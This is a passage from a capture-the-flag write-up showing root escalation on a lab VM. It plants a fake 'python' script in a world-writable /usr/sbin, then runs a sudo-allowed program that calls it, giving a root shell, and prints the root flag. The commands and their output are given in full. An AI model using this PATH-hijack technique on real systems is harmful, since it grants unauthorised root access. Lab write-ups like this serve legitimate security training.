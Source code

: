 ~~~
Orka@osboxes:/$ ls -la /usr/sbin/ | head
ls -la /usr/sbin/ | head
total 41284
drwxrwxr-x  2 root Orka    12288 Jan 23 16:01 . <----------------- write access
drwxr-xr-x 11 root root     4096 Feb 26  2019 ..
lrwxrwxrwx  1 root root        7 Aug 12  2020 a2disconf -> a2enmod
lrwxrwxrwx  1 root root        7 Aug 12  2020 a2dismod -> a2enmod
lrwxrwxrwx  1 root root        7 Aug 12  2020 a2dissite -> a2enmod
lrwxrwxrwx  1 root root        7 Aug 12  2020 a2enconf -> a2enmod
-rwxr-xr-x  1 root root    15424 Jul 15  2020 a2enmod
lrwxrwxrwx  1 root root        7 Aug 12  2020 a2ensite -> a2enmod
-rwxr-xr-x  1 root root     9870 Aug 12  2020 a2query
ls: write error: Broken pipe
~~~

Let's write a fake `python` binary in `/usr/bin/` that will spawn a root shell:

~~~
$ cat > /usr/sbin/python << EOF
#!/bin/bash
/bin/bash
EOF
$ chmod +x /usr/sbin/python
~~~

## Root access

Now, running the program will spawn a root shell and we can get the root flag:

~~~
Orka@osboxes:/$ cat > /usr/sbin/python << EOF
#!/bin/bash
/bin/bash
EOF
cat > /usr/sbin/python << EOF
> #!/bin/bash
> /bin/bash
> EOF
Orka@osboxes:/$ chmod +x /usr/sbin/python
chmod +x /usr/sbin/python
Orka@osboxes:/$ sudo /home/Orka/Desktop/bitcoin
sudo /home/Orka/Desktop/bitcoin
Enter the password : password
password
Access Granted...
            User Manual:            
Maximum Amount Of BitCoins Possible To Transfer at a time : 9 
Amounts with more than one number will be stripped off! 
And Lastly, be careful, everything is logged :) 
Amount Of BitCoins : 20
20
root@osboxes:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@osboxes:/# cat /root/root.txt
cat /root/root.txt
f4e788f87cc3afaecbaf0f0fe9ae6ad7
~~~

Root flag: `f4e788f87cc3afaecbaf0f0fe9ae6ad7`
